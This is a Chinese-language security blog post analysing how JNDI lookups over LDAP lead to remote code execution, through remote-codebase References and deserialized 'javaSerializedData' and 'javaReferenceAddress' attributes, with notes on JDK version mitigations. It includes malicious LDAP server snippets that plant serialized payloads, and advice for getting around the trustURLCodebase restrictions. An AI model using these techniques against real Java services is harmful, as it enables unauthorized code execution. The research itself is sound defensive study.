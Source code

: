
# JNDI with LDAP


                                阅读量   
                                **670355**
                            
                        |
                        
                                                                                                                                    ![](./img/201181/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](./img/201181/t0125f83f55202607b1.jpg)](./img/201181/t0125f83f55202607b1.jpg)



## 0x00 前言

JNDI的SPI层除了RMI外，还可以跟LDAP交互。与RMI类似，LDAP也能同样返回一个Reference给JNDI的Naming Manager，本文将讲述JNDI使用ldap协议的两个攻击面XD



## 0x01 LDAP基础

关于LDAP的介绍，延伸阅读一下[这篇](https://www.cnblogs.com/wilburxu/p/9174353.html)

> LDAP can be used to store Java objects by using several special Java attributes. There are at least two ways a Java object can be represented in an LDAP directory:
<p>● Using Java serialization<br>
o [https://docs.oracle.com/javase/jndi/tutorial/objects/storing/serial.html](https://docs.oracle.com/javase/jndi/tutorial/objects/storing/serial.html)<br>
● Using JNDI References<br>
o [https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html](https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html)</p>
from [https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf)

Java中的LDAP可以在属性值中存储相关的Java对象，可以存储如上两种对象，而相关的问题就是出现在这部分上。

后文用的LDAP Server参考的是[mbechler 实现的LDAPRefServer](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java)，连接的客户端Client直接用JNDI的lookup完成，jdk版本jdk8u162

```
Context ctx = new InitialContext();
ctx.lookup("ldap://127.0.0.1:1389/EvilObj");
ctx.close();
```



## 0x02 LDAP with JDNI References

JNDI发起ldap的lookup后，将有如下的调用流程，这里我们直接来关注，获得远程LDAP Server的Entry之后，Client这边是怎么做处理的

[![](./img/201181/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t015c3147f82ab67df2.png)

跟进com/sun/jndi/ldap/Obj.java#decodeObject，按照该函数的注释来看，其主要功能是解码从LDAP Server来的对象，该对象可能是序列化的对象，也可能是一个Reference对象。关于序列化对象的处理，我们看后面一节。这里摘取了Reference的处理方式：

```
static Object decodeObject(Attributes attrs)
    throws NamingException {
    Attribute attr;
    // Get codebase, which is used in all 3 cases.
    String[] codebases = getCodebases(attrs.get(JAVA_ATTRIBUTES[CODEBASE]));
    try {
        // ...
        attr = attrs.get(JAVA_ATTRIBUTES[OBJECT_CLASS]);// "objectClass"
        if (attr != null &amp;&amp;
            (attr.contains(JAVA_OBJECT_CLASSES[REF_OBJECT]) || // "javaNamingReference"
                attr.contains(JAVA_OBJECT_CLASSES_LOWER[REF_OBJECT]))) { // "javanamingreference"
            return decodeReference(attrs, codebases);
        }
      //...
```

如果LDAP Server返回的属性里包括了`objectClass`和`javaNamingReference`，将进入Reference的处理函数decodeReference上

```
if ((attr = attrs.get(JAVA_ATTRIBUTES[CLASSNAME])) != null) {
    className = (String)attr.get();
} else {
    throw new InvalidAttributesException(JAVA_ATTRIBUTES[CLASSNAME] +
                " attribute is required");
}

if ((attr = attrs.get(JAVA_ATTRIBUTES[FACTORY])) != null) {
    factory = (String)attr.get();
}

Reference ref = new Reference(className, factory,
    (codebases != null? codebases[0] : null));
```

decodeReference再从属性中提取出`javaClassName`和`javaFactory`，最后将生成一个Reference。这里如果看过我前面的那篇[jndi-with-rmi](http://blog.0kami.cn/2020/02/09/jndi-with-rmi/)，可以看到其实这里生成的ref就是我们在RMI返回的那个ReferenceWrapper，后面这个ref将会传递给Naming Manager去处理，包括从codebase中获取class文件并载入。

而这里LDAP也类似，处理ref的对象是NamingManager的子类javax/naming/spi/DirectoryManager.java，因为跟RMI有点类似不具体分析了，最后同样由javax/naming/spi/NamingManager.java#getObjectFactoryFromReference来处理。

到这里，我们再来看mbechler 实现的LDAPRefServer就比较清楚了

[![](./img/201181/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013eca4ff483644b65.png)

当其获取到LDAP连接时，将填充如上的几个属性及其对应的值，就是为了满足上面的条件而生成一个Reference对象。



## 0x03 LDAP with Serialized Object

JNDI对于属性中的序列化数据的处理一共有两个地方，我们先来顺着前面的JNDI Reference的思路说下去

#### <a class="reference-link" name="%E7%AC%AC%E4%B8%80%E5%A4%84%EF%BC%9Acom/sun/jndi/ldap/Obj.java#decodeObject"></a>第一处：com/sun/jndi/ldap/Obj.java#decodeObject

在com/sun/jndi/ldap/Obj.java#decodeObject上还存在一个判断

```
if ((attr = attrs.get(JAVA_ATTRIBUTES[SERIALIZED_DATA])) != null) {// “javaSerializedData”
    ClassLoader cl = helper.getURLClassLoader(codebases);
    return deserializeObject((byte[])attr.get(), cl);
}
```

如果在返回的属性中存在`javaSerializedData`，将继续调用`deserializeObject`函数，该函数主要就是调用常规的反序列化方式readObject对序列化数据进行还原，如下payload。

```
@Override
protected void processAttribute(Entry entry){
  entry.addAttribute("javaClassName", "foo");
  entry.addAttribute("javaSerializedData", serialized);
}
```

这里我们就不需要通过远程codebase的方式来达成RCE，当然首先本地环境上需要有反序列化利用链所依赖的库文件。

#### <a class="reference-link" name="%E7%AC%AC%E4%BA%8C%E5%A4%84%EF%BC%9Acom/sun/jndi/ldap/Obj.java#decodeReference"></a>第二处：com/sun/jndi/ldap/Obj.java#decodeReference

`decodeReference`函数在对普通的Reference还原的基础上，还可以进一步对RefAddress做还原处理，其中还原过程中，也调用了`deserializeObject`函数，这意味着我们通过满足RefAddress的方式，也可以达到上面第一种的效果。

具体代码太长了，这里我就说一下条件：
1. 1.第一个字符为分隔符
1. 2.第一个分隔符与第二个分隔符之间，表示Reference的position，为int类型
1. 3.第二个分隔符与第三个分隔符之间，表示type，类型
1. 4.第三个分隔符是双分隔符的形式，则进入反序列化的操作
1. 5.序列化数据用base64编码
满足上面的条件，构造一个类似的

```
protected void processAttribute(Entry entry){
  entry.addAttribute("javaClassName", "foo");
  entry.addAttribute("javaReferenceAddress","$1$String$$"+new BASE64Encoder().encode(serialized));
  entry.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
}
```

当然第二处只是一个锦上添花的步骤，我们可以直接用第一种方法，第二种在第一种不能用的情况下可以试试。



## 0x04 后续

自[jdk8u191-b02](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/rev/2db6890a9567#l1.33)版本后，新添加了`com.sun.jndi.ldap.object.trustURLCodebase`默认为false的限制，也就意味着远程codebase的Reference方式被限制死了，我们只能通过SerializedData的方法来达成利用。

我们来整理一下，关于jndi的相关安全更新

1.JDK 6u132, JDK 7u122, JDK 8u113中添加了com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false。

**导致jndi的rmi reference方式失效，但ldap的reference方式仍然可行**

2.Oracle JDK 11.0.1、8u191、7u201、6u211之后 `com.sun.jndi.ldap.object.trustURLCodebase`属性的默认值被调整为false。

**导致jndi的ldap reference方式失效，到这里为止，远程codebase的方式基本失效，除非人为设为true**

而在最新版的jdk8u上，jndi ldap的本地反序列化利用链[1](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/com/sun/jndi/ldap/Obj.java#l239)和[2](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/com/sun/jndi/ldap/Obj.java#l478)的方式仍然未失效，jndi rmi底层(JRMPListener)[StreamRemoteCall](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/sun/rmi/transport/StreamRemoteCall.java#l270)的本地利用方式仍未失效。

所以如果Reference的方式不行的时候，可以试试利用本地ClassPath里的反序列化利用链来达成RCE。



## 0x05 总结

JNDI和LDAP的结合，出现了2种利用方式，一是利用远程codebase的方式，二是利用本地ClassPath里的反序列化利用链。在最新版的jdk8u中，codebase的方式依赖`com.sun.jndi.ldap.object.trustURLCodebase`的值，而第二种方式仍未失效。

LDAP的使用方法除了JNDI的lookup，其他的库也会有相应的使用方法，如Spring的ldap，这里还可以继续深入下去，先挖个坑XD

最后，上面的两个ldap Server更新到了[github](https://github.com/wh1t3p1g/ysomap)上，自取XD

